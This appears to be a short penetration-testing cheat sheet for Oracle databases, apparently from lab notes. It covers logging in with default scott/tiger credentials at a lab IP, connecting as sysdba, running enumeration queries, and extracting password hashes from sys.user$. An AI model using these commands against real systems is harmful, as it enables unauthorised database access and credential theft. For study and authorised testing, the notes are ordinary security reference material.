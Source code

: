 https://www.geeksforgeeks.org/sqlplus-command-reference/
#### SQLplus - Log In

```bash
sqlplus scott/tiger@10.129.204.235/XE
```
/XE - XE is the SID
#### Oracle RDBMS - Interaction

```sql
select table_name from all_tables;
```
#### Oracle RDBMS - Database Enumeration

```bash
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```

```SQL
select * from user_role_privs;
```
#### Oracle RDBMS - Extract Password Hashes

```SQL
select name, password from sys.user$;
```
# Tags

> #Recon #Information-gathering #Service-Enum #Oracle-TNS